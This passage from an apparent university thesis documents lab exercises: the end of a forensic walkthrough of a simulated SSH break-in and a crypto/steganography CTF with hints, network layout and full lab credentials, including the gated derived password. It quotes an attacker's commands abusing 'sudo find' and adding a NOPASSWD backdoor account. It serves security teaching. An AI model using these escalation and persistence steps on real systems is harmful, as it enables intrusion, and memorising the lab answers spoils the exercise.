# Apr 24 03:18:01 helix-web sudo: devops : ... COMMAND=/usr/bin/find
\end{lstlisting}

The gap between the last failed attempt and the successful login suggests the attacker switched to the correct credential shortly after the brute-force phase ended. \path{sudo /usr/bin/find} by a developer account is anomalous --- \texttt{find} has no legitimate need for root.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Step 4 --- Privilege escalation vector}

\begin{lstlisting}
sudo cat /etc/sudoers.d/devops
# devops ALL=(ALL) NOPASSWD: /usr/bin/find
\end{lstlisting}

\texttt{find\ -exec} allows running arbitrary commands as root. This is a well-known GTFOBins vector.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Step 5 --- Backdoor account and persistence}

\begin{lstlisting}
grep 'useradd\|maint' /var/log/auth.log
# Apr 24 03:19:15 helix-web useradd[2041]: new user: name=maint, UID=1003 ...

sudo cat /home/devops/.bash_history
# id
# whoami
# sudo /usr/bin/find / -name "*.conf" -exec cat  \;
# useradd -m maint
# echo "maint ALL=(ALL) NOPASSWD: ALL" > /etc/sudoers.d/maint
# chmod 440 /etc/sudoers.d/maint
# exit

sudo cat /etc/sudoers.d/maint
# maint ALL=(ALL) NOPASSWD: ALL
\end{lstlisting}

The \path{.bash_history} confirms the exact sequence. The attacker created a backdoor account with full unrestricted sudo.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Step 6 --- Lateral movement to Server-DB}

Pivot to Server-DB:

\begin{lstlisting}
ssh analyst@192.168.60.10
# Password: An@lyst2024
# analyst@helix-db:~$
\end{lstlisting}

Check the auth log:

\begin{lstlisting}
grep 'Accepted' /var/log/auth.log
# Apr 24 03:21:03 helix-db sshd[987]: Accepted password for devops from 192.168.50.10 port 51234 ssh2
\end{lstlisting}

Source \path{192.168.50.10} = Server-Web. The attacker reused \texttt{devops} credentials to reach the database server.

\begin{lstlisting}
You connect as `analyst` (your investigator account). The attacker previously moved laterally as `devops` --- hence the `auth.log` entry shows `devops`, not `analyst`.
\end{lstlisting}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Step 7 --- Data exfiltration}

\begin{lstlisting}
ls -la /opt/helix/data/
# clients.db  .exfil_marker

cat /opt/helix/data/.exfil_marker
# 185.220.101.47 - 2026-04-24 03:22 - data accessed
\end{lstlisting}

The external attacker IP (\path{185.220.101.47}) matches the brute-force source. Timestamp \texttt{03:22} follows the lateral movement login at \texttt{03:21}.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Incident findings summary}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.20\linewidth}
  >{\raggedright\arraybackslash}p{0.20\linewidth}
  >{\raggedright\arraybackslash}p{0.28\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
Time
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Host
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Artefact
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Finding
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
03:05--03:16 & Server-Web & auth.log & 25 failed SSH attempts (brute force) from \path{185.220.101.47} \\
03:17 & Server-Web & auth.log & Successful login as \texttt{devops} \\
03:18 & Server-Web & auth.log & Privilege escalation via \texttt{sudo\ find} \\
03:19 & Server-Web & auth.log + /etc/passwd & Backdoor account \texttt{maint} created \\
03:21 & Server-DB & auth.log & Lateral movement from \path{192.168.50.10} \\
03:22 & Server-DB & .exfil\_marker & Access to \texttt{clients.db} confirmed \\
\end{longtable}}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Mitigations}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}
  >{\raggedright\arraybackslash}p{0.30\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
Attack phase
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Root cause
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Fix
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
Brute force & No rate limiting & fail2ban; SSH key auth only; disable password auth \\
Initial access & Weak/reused password & Strong password policy; MFA \\
Privilege escalation & \path{NOPASSWD: /usr/bin/find} & Never grant NOPASSWD to utility binaries \\
Persistence & Unrestricted root access & Audit \path{/etc/passwd} and \path{sudoers.d/} with FIM \\
Lateral movement & Password reuse & Unique credentials per system \\
Data exfiltration & No access control on \path{/opt/helix/data/} & Least-privilege ownership; audit logging \\
\end{longtable}}



\includepdf[pages=-, scale=0.82, pagecommand={\thispagestyle{plain}}]{/home/overleaf/TFG/TFG/docs/web/docs/assets/official_Documents/lab3-enunciado.pdf}

\includepdf[pages=-, scale=0.82, pagecommand={\thispagestyle{plain}}]{/home/overleaf/TFG/TFG/docs/web/docs/assets/official_Documents/lab3-resolucion.pdf}
\cleardoublepage
\chapter{LAB4 --- Cryptography and Steganography: CipherStrike}

\section{LAB4 --- Cryptography \& Steganography CTF · CipherStrike}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.72\linewidth}@{}}
\toprule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
\textbf{Difficulty} & Hard \\
\textbf{Category} & Cryptography · Steganography · CTF \\
\textbf{Flags} & 14 (A1--A5, B1--B5, C1--C4) \\
\textbf{Est.\ time} & 180--300 min \\
\textbf{Key skills} & Classical ciphers, AES-ECB oracle, RSA small exponent, LSB stego, steghide, ECDSA nonce reuse \\
\textbf{Nodes} & pfSense · VyOS · ServerA · ServerB · ServerC · Defender \\
\end{longtable}}

\href{https://github.com/TheEgea/TFG/tree/main/src/eve-ng/configs/nodes/Lab4}{Lab folder on GitHub} \href{https://github.com/TheEgea/TFG/raw/main/src/eve-ng/topologies/LAB4-CryptoStego-CipherStrike.unl}{Download topology (.unl)} \href{../../assets/exercises/lab4-exercise.pdf}{Exercise sheet} \href{../../assets/exercises/lab4-solution.pdf}{Solution guide}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Scenario}

\textbf{NovaCorp} has been breached. As a member of the incident response team, you have recovered a set of intercepted communications and suspicious image files from the attacker's exfiltrated archive.

Your mission is to break the ciphers, extract hidden data from the images, and reconstruct the attacker's communication channel step by step.

The investigation is divided into three modules:

\begin{itemize}
\tightlist
\item
  \textbf{Module A --- Cryptography} (ServerA, 5 challenges): from simple substitution ciphers to asymmetric key attacks.
\item
  \textbf{Module B --- Steganography} (ServerB, 5 challenges): from EXIF metadata to least-significant-bit encoding and password-protected steganography.
\item
  \textbf{Module C --- Advanced Mix} (ServerC, 4 challenges): multilayer techniques combining cryptography and steganography. \textbf{Access is gated} --- you need the key flags from modules A and B first.
\end{itemize}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Topology}

\begin{figure}[H]
\centering

\includegraphics[width=0.95\textwidth]{lab4-topology.png}
\caption{EVE-NG topology --- Lab 4}
\end{figure}

\begin{lstlisting}
Homelab LAN (192.168.0.0/24)
        |
[pfSense-LAB4]  WAN: 192.168.0.18 (DHCP)
        |        LAN: 192.168.1.1/24
[VyOS-LAB4]
  eth0: 192.168.1.2/24   $\leftarrow$ uplink to pfSense
  eth1: 10.10.1.1/24     $\leftarrow$ Zone-A (ServerA)
  eth2: 10.10.2.1/24     $\leftarrow$ Zone-B (ServerB)
  eth3: 10.10.3.1/24     $\leftarrow$ Zone-C (ServerC) [GATED]
  eth4: 10.10.4.1/24     $\leftarrow$ Zone-Defense (Defender)
        |
[ServerA]  [ServerB]  [ServerC]  [Defender]
10.10.1.10  10.10.2.10  10.10.3.10  10.10.4.10
Crypto      Stego       Adv Mix     Monitoring
\end{lstlisting}

\subsection{Nodes}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.20\linewidth}
  >{\raggedright\arraybackslash}p{0.20\linewidth}
  >{\raggedright\arraybackslash}p{0.28\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
Node
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
OS
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
IP
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Role
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
pfSense-LAB4 & pfSense CE & WAN: 192.168.0.18 / LAN: 192.168.1.1 & Perimeter firewall · NAT \\
VyOS-LAB4 & VyOS rolling & 192.168.1.2 / 10.10.x.1 & Core router · zone segmentation \\
ServerA & Ubuntu Server 24.04 & 10.10.1.10 & Cryptography module \\
ServerB & Ubuntu Server 24.04 & 10.10.2.10 & Steganography module \\
ServerC & Ubuntu Server 24.04 & 10.10.3.10 & Advanced mix --- \textbf{gated access} \\
Defender & Ubuntu Desktop 24.04 & 10.10.4.10 & SOC monitoring node \\
\end{longtable}}

\subsection{Network segments}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
Segment & Subnet & Gateway & Purpose \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
WAN & 192.168.0.0/24 & 192.168.0.1 & pfSense WAN (Homelab) \\
Net-Link & 192.168.1.0/24 & 192.168.1.1 & pfSense $\leftrightarrow$ VyOS \\
Zone-A & 10.10.1.0/24 & 10.10.1.1 & ServerA --- Cryptography \\
Zone-B & 10.10.2.0/24 & 10.10.2.1 & ServerB --- Steganography \\
Zone-C & 10.10.3.0/24 & 10.10.3.1 & ServerC --- Advanced Mix \\
Zone-Defense & 10.10.4.0/24 & 10.10.4.1 & Defender \\
\end{longtable}}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Learning objectives}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  Apply classical cryptanalysis techniques (frequency analysis, Kasiski examination)
\item
  Execute modern symmetric cipher attacks (AES-ECB oracle, XOR crib-dragging)
\item
  Understand and exploit RSA small-exponent vulnerability (\(e=3\), cube root attack)
\item
  Extract hidden data from image EXIF metadata and binary structures
\item
  Perform LSB steganography extraction from RGB and alpha channels
\item
  Crack steghide-protected JPEG payloads
\item
  Recognise and exploit ECDSA nonce reuse to recover a private key
\item
  Chain CTF challenges across multiple servers using derived credentials
\end{enumerate}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{The gate mechanism}

\begin{lstlisting}
Access to \textbf{ServerC} requires solving \textbf{A5} (RSA challenge on ServerA) and
\textbf{B5} (steghide JPEG on ServerB). The ServerC password is derived as:

```
password = md5(flag_A5 + flag_B5)[:12]
```
Where `flag_A5` and `flag_B5` are the full flag strings (e.g. `FLAG`),
concatenated without separator, hashed with MD5 (hex digest),
and the first 12 characters used as the password.

You will not be told the password directly. Derive it yourself once you have
both flags.
\end{lstlisting}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Module A --- Cryptography (ServerA)}

\textbf{Entry:} \texttt{ssh\ admin@10.10.1.10} (password: \texttt{N3xaTech!})

All challenge files are in \path{/home/admin/mensajes/}.

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.05\linewidth}
  >{\raggedright\arraybackslash}p{0.48\linewidth}
  >{\raggedright\arraybackslash}p{0.24\linewidth}
  >{\raggedright\arraybackslash}p{0.12\linewidth}@{}}
\toprule\noalign{}
Ch. & \begin{minipage}[b]{\linewidth}\raggedright
File
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Topic
\end{minipage} & Diff. \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
A1 & \path{A1_mensaje_interceptado.txt} & ROT13 & Easy \\
A2 & \path{A2_oracle.py} + \path{A2_admin_cipher.b64} & AES-ECB oracle attack & Easy--Medium \\
A3 & \path{A3_documento_clasificado.txt} & Vigenère cipher + Kasiski analysis & Medium \\
A4 & \path{A4_mensaje_xor.hex} & XOR repeating key + crib-dragging & Medium \\
A5 & \path{A5_rsa_challenge.txt} & RSA small exponent (\(e=3\)) & Medium--Hard \\
\end{longtable}}

\subsubsection{Hints}

??? hint ``A1 --- not sure where to start?'' The text looks like English but isn't. Every letter has been shifted by a fixed amount. \texttt{python3\ -c\ "import\ codecs;\ print(codecs.decode(open(...).read(),\ \textquotesingle{}rot\_13\textquotesingle{}))"} is one approach.

??? hint ``A2 --- understanding ECB mode'' AES-ECB encrypts each 16-byte block independently. If you can make the oracle encrypt a block you control followed by an unknown block, you can recover the unknown byte-by-byte. The \path{A2_oracle.py} script is your encryption oracle.

??? hint ``A3 --- Kasiski examination'' Look for repeated trigrams in the ciphertext. The distance between repetitions is a multiple of the key length. Once you know the key length, treat each column as a Caesar cipher.

??? hint ``A4 --- crib-dragging'' If you know (or can guess) a word that appears in the plaintext, XOR that word against every position of the ciphertext. A correctly placed crib reveals the key bytes at that position.

??? hint ``A5 --- cube root attack'' When RSA uses \(e=3\) and the message is short enough that \(m^3 < n\), the ciphertext is literally \(m^3\) with no modular reduction. Compute the integer cube root of the ciphertext with \texttt{gmpy2.iroot(c,\ 3)} and convert to bytes.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Module B --- Steganography (ServerB)}

\textbf{Entry:} \texttt{ssh\ sysop@10.10.2.10} (password: \texttt{S3cure24!})

All challenge files are in \path{/srv/public/uploads/}.

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.20\linewidth}
  >{\raggedright\arraybackslash}p{0.20\linewidth}
  >{\raggedright\arraybackslash}p{0.28\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
Ch. & \begin{minipage}[b]{\linewidth}\raggedright
File
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Topic
\end{minipage} & Diff. \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
B1 & \path{B1_oficina_novacorp.png} & EXIF metadata & Easy \\
B2 & \path{B2_network_diagram.png} & Data after PNG IEND chunk & Easy--Medium \\
B3 & \path{B3_documento_escaneado.png} & LSB in red channel & Medium \\
B4 & \path{B4_novacorp_logo.png} & LSB in alpha channel (RGBA) & Medium \\
B5 & \path{B5_camara_seguridad.jpg} & Steghide JPEG & Medium \\
\end{longtable}}

\subsubsection{Hints}

??? hint ``B1 --- where metadata hides'' Images carry EXIF metadata: camera model, GPS coordinates, software, and custom fields. \path{exiftool B1_oficina_novacorp.png} shows all fields.

??? hint ``B2 --- beyond the end'' A valid PNG ends at the IEND chunk. Anything after that is ignored by image viewers but is still present in the file. Read the raw bytes past the IEND marker.

??? hint ``B3 --- LSB basics'' The least-significant bit of each pixel's red channel carries one bit of hidden data. Read the red channel of each pixel in row order and assemble the bits into bytes.

??? hint ``B4 --- transparency channel'' PNG images with transparency have an alpha channel. The LSB of the alpha value of each pixel can carry hidden data. Open with Pillow, select \texttt{\textquotesingle{}A\textquotesingle{}} channel.

??? hint ``B5 --- steghide and passwords'' Steghide embeds data inside a JPEG using a passphrase. The passphrase for this challenge is related to the company name in the scenario. \path{steghide extract -sf B5_camara_seguridad.jpg}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Module C --- Advanced Mix (ServerC)}

\begin{lstlisting}
Derive the ServerC password from flags A5 and B5 before attempting this module.
\end{lstlisting}

\textbf{Entry:} \texttt{ssh\ devops@10.10.3.10} (password: \emph{derived --- see gate mechanism})

All challenge files are in \path{/home/devops/retos/}.

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.20\linewidth}
  >{\raggedright\arraybackslash}p{0.20\linewidth}
  >{\raggedright\arraybackslash}p{0.28\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
Ch. & \begin{minipage}[b]{\linewidth}\raggedright
File(s)
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Topic
\end{minipage} & Diff. \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
C1 & \path{C1_backup_tapes.jpg} & Multilayer: EXIF $\rightarrow$ steghide $\rightarrow$ ZIP & Hard \\
C2 & \path{C2_backup_log.b64} & Onion encoding layers & Hard \\
C3 & \path{C3_api_token.txt} + \path{C3_verificador.py} & SHA-1 length extension & Hard \\
C4 & \path{C4_ecdsa_signatures.txt} + \path{C4_verificador.py} & ECDSA nonce reuse & Hard \\
\end{longtable}}

\subsubsection{Hints}

??? hint ``C1 --- follow the layers'' Start with \texttt{exiftool} to find a clue embedded in the EXIF data. That clue leads to a steghide passphrase. The steghide payload is a ZIP archive containing the final hidden data.

??? hint ``C2 --- peel the onion'' The file is base64 encoded. After decoding: decompress with gzip. After decompressing: base64 again. After decoding: decompress with bzip2. The flag is inside. Work layer by layer.

??? hint ``C3 --- length extension'' Some hash-based authentication schemes compute \texttt{HMAC\ =\ hash(secret\ +\ message)}. For MD5 and SHA-1, an attacker who knows the hash output can append extra data and compute a valid hash for \texttt{secret\ +\ message\ +\ padding\ +\ extra} without knowing the secret. The \texttt{hlextend} Python library automates this.

??? hint ``C4 --- reused nonce in ECDSA'' ECDSA signature security depends entirely on using a unique random nonce \(k\) per signature. If the same \(k\) is used twice with different messages, the private key can be algebraically recovered from the two \((r, s)\) pairs. Check whether any two signatures in the file share the same \(r\) value.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Lab startup checklist}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\tightlist
\item
  Start all nodes from EVE-NG web UI in order: pfSense $\rightarrow$ VyOS $\rightarrow$ ServerA $\rightarrow$ ServerB $\rightarrow$ ServerC $\rightarrow$ Defender
\item
  Verify zone routing from VyOS console: \texttt{show\ ip\ route}
\item
  Confirm SSH access:

  \begin{itemize}
  \tightlist
  \item
    \texttt{ssh\ admin@10.10.1.10} --- Module A entry point
  \item
    \texttt{ssh\ sysop@10.10.2.10} --- Module B entry point
  \end{itemize}
\item
  Solve A5 and B5, derive ServerC password, then: \texttt{ssh\ devops@10.10.3.10}
\end{enumerate}

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Files}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
File
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Description
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
\path{LAB4-CryptoStego-CipherStrike.unl} & EVE-NG topology --- import directly \\
\href{https://github.com/TheEgea/TFG/tree/main/src/eve-ng/configs/nodes/Lab4/serverA}{\path{nodes/Lab4/serverA/}} & Challenge files + Python deps for ServerA \\
\href{https://github.com/TheEgea/TFG/tree/main/src/eve-ng/configs/nodes/Lab4/serverB}{\path{nodes/Lab4/serverB/}} & Challenge files + image assets for ServerB \\
\href{https://github.com/TheEgea/TFG/tree/main/src/eve-ng/configs/nodes/Lab4/serverC}{\path{nodes/Lab4/serverC/}} & Challenge files + hlextend vendor for ServerC \\
\href{https://github.com/TheEgea/TFG/tree/main/src/eve-ng/configs/nodes/Lab4/vyos}{\path{nodes/Lab4/vyos/}} & VyOS config.boot \\
\end{longtable}}

\section{LAB4 --- Infrastructure Reference}

Complete infrastructure reference for LAB4 CipherStrike. For instructor/lab admin use.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{Node inventory}

{\footnotesize\begin{longtable}[]{@{}
  >{\raggedright\arraybackslash}p{0.17\linewidth}
  >{\raggedright\arraybackslash}p{0.17\linewidth}
  >{\raggedright\arraybackslash}p{0.17\linewidth}
  >{\raggedright\arraybackslash}p{0.17\linewidth}
  >{\raggedright\arraybackslash}p{0.17\linewidth}@{}}
\toprule\noalign{}
\begin{minipage}[b]{\linewidth}\raggedright
Node
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
EVE-NG ID
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Console
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Image
\end{minipage} & \begin{minipage}[b]{\linewidth}\raggedright
Role
\end{minipage} \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
pfSense-LAB4 & 1 & VNC (see EVE-NG UI) & pfsense-ce & Perimeter firewall · NAT \\
VyOS-LAB4 & 2 & Telnet (see EVE-NG UI) & vyos-rolling & Core router · zone segmentation \\
ServerA & 3 & VNC (see EVE-NG UI) & linux-ubuntu-server-24.04 & Cryptography module \\
ServerB & 4 & VNC (see EVE-NG UI) & linux-ubuntu-server-24.04 & Steganography module \\
ServerC & 5 & VNC (see EVE-NG UI) & linux-ubuntu-server-24.04 & Advanced mix (gated) \\
Defender & 6 & VNC (see EVE-NG UI) & linux-ubuntu-desktop-24.04 & SOC monitoring \\
\end{longtable}}

\subsection{Network addressing}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.17\linewidth}
  >{\raggedright\arraybackslash}p{0.17\linewidth}
  >{\raggedright\arraybackslash}p{0.17\linewidth}
  >{\raggedright\arraybackslash}p{0.17\linewidth}
  >{\raggedright\arraybackslash}p{0.17\linewidth}@{}}
\toprule\noalign{}
Segment & Subnet & Bridge & Host IP (EVE-NG) & Purpose \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
Net-Link & 192.168.1.0/24 & vnet0\_2 & --- & pfSense LAN $\leftrightarrow$ VyOS \\
Zone-A & 10.10.1.0/24 & vnet0\_3 & 10.10.1.253 & ServerA \\
Zone-B & 10.10.2.0/24 & vnet0\_4 & 10.10.2.253 & ServerB \\
Zone-C & 10.10.3.0/24 & vnet0\_5 & 10.10.3.253 & ServerC (gated) \\
Zone-Defense & 10.10.4.0/24 & vnet0\_6 & --- & Defender \\
\end{longtable}}

\begin{lstlisting}
EVE-NG bridge IPs are not persistent by default. Add them before testing SSH access:
```bash
ip addr add 10.10.1.253/24 dev vnet0_3
ip addr add 10.10.2.253/24 dev vnet0_4
ip addr add 10.10.3.253/24 dev vnet0_5
```
\end{lstlisting}

\subsection{Credentials (full reference)}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}
  >{\raggedright\arraybackslash}p{0.22\linewidth}@{}}
\toprule\noalign{}
Node & User & Password & Access \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
pfSense-LAB4 & admin & \texttt{pfsense} & Web GUI / SSH (192.168.0.18) \\
VyOS-LAB4 & vyos & \texttt{vyos} & EVE-NG console \\
ServerA & admin & \texttt{N3xaTech!} & SSH 10.10.1.10 \\
ServerA & root & \texttt{eve} & Console only \\
ServerB & sysop & \texttt{S3cure24!} & SSH 10.10.2.10 \\
ServerB & root & \texttt{eve} & Console only \\
ServerC & devops & \texttt{fa681b59855d} & SSH 10.10.3.10 (derived) \\
ServerC & root & \texttt{eve} & Console only \\
Defender & lab4 & \texttt{L4b4} & Ubuntu Desktop / EVE-NG console \\
\end{longtable}}

\begin{lstlisting}
`password = md5(flag_A5 + flag_B5)[:12]`
Students must solve modules A and B first. The decoy `D3vOps24!` is intentionally wrong.
\end{lstlisting}

\subsection{Lab startup procedure}

\begin{lstlisting}
# 1. Start all nodes from EVE-NG UI
#    Order: pfSense $\rightarrow$ VyOS $\rightarrow$ ServerA $\rightarrow$ ServerB $\rightarrow$ ServerC $\rightarrow$ Defender

# 2. Add bridge IPs on EVE-NG host
ip addr add 10.10.1.253/24 dev vnet0_3
ip addr add 10.10.2.253/24 dev vnet0_4
ip addr add 10.10.3.253/24 dev vnet0_5

# 3. Verify routing on VyOS console
show ip route

# 4. Verify student entry points
ssh admin@10.10.1.10    # Module A --- N3xaTech!
ssh sysop@10.10.2.10    # Module B --- S3cure24!

# 5. ServerC only after solving A5 + B5
ssh devops@10.10.3.10   # fa681b59855d (derived)
\end{lstlisting}

\section{LAB4 --- ServerA (Cryptography Module)}

ServerA hosts the five cryptography challenges of \textbf{Module A}. Challenge files are in \path{/home/admin/mensajes/}.

\begin{center}\rule{0.5\linewidth}{0.5pt}\end{center}

\subsection{System}

{\footnotesize\begin{longtable}[]{@{}>{\raggedright\arraybackslash}p{0.45\linewidth}
  >{\raggedright\arraybackslash}p{0.45\linewidth}@{}}
\toprule\noalign{}
Parameter & Value \\
\midrule\noalign{}
\endhead
\bottomrule\noalign{}
\endlastfoot
Hostname & servera \\
OS & Ubuntu Server 24.04 LTS \\
IP & 10.10.1.10/24 \\
Gateway & 10.10.1.1 (VyOS eth1) \\
\end{longtable}}

